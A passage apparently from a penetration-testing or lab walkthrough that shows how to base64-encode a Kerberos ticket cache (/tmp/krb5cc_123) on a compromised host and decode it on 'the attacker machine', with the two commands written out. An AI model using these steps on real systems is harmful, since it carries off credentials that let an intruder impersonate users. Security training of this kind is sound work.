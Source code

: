 <br/>

To transfer the TGS to the attacker machine, first base64 encode the TGS:

```
base64 -w 0 < /tmp/krb5cc_123
```

![picture 53](images/2594f671853d85af70863eaf1a93f928483c7a9d26bf8b2800809361d4063d3d.png)  

<br/>

Then copy the output string and decode in the attacker machine:

```
echo -n "<copied string>" | base64 -d > krb5cc_123
```

![picture 54](images/ce75f8f42ad0d2b9db43ba1f9e0e0733befd421bebb7787ef5dda1bb0600d2d1.png)  


<br/>

